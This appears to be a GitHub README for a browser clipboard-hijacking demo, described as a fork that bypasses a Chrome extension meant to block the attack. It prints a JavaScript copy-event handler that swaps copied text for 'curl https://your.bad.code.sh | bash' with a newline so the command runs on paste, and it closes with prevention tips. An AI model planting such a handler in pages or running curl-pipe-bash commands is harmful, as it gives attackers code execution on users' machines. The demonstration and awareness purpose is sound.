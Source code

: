 # This fork bypasses [this **Chrome Extension**](https://chrome.google.com/webstore/detail/copy-paste-hack-blocker/fkfnmcncicigjajpfdgpkjohbondnkld).
# copy-paste-hack-js
During their job, developers often copy and paste code from the Internet from sources like Stackowerflow and other websites.  
I have found an **exploit**, with just some lines of JavaScript code, that can alter the copy-paste feature of any browser and make you paste (and execute) a different kind of code.

A running **demo** based on the content of this repository can be found here:  
[**TRY IT NOW**](https://marco97pa.github.io/copy-paste-hack-js/)

## How it works behind the scenes
Using plain JavaScript we detect every time there is a "copy" event on the text the user needs to copy.
When it happens, we set the clipboard content of the user with a different code, as we wish.
We also add a "/n" to simulate the Enter key and execute the code right away.

```javascript
document.getElementById('copyme').addEventListener(
    'copy', function(e){
        e.clipboardData.setData('text/plain',
        'curl https://your.bad.code.sh | bash\n');
        e.preventDefault();
    }
)
```
## How to prevent it from happening
- Always copy code from trusted sources and websites
- Always check the code and if you can't understand it, don't run it
- Some modern terminals like Windows Terminal display a warning message whenever you are trying to paste a multiline code (like the one in this exploit) and it will show up the code on the screen before getting executed. Just make sure to not ignore those helpful warnings. 
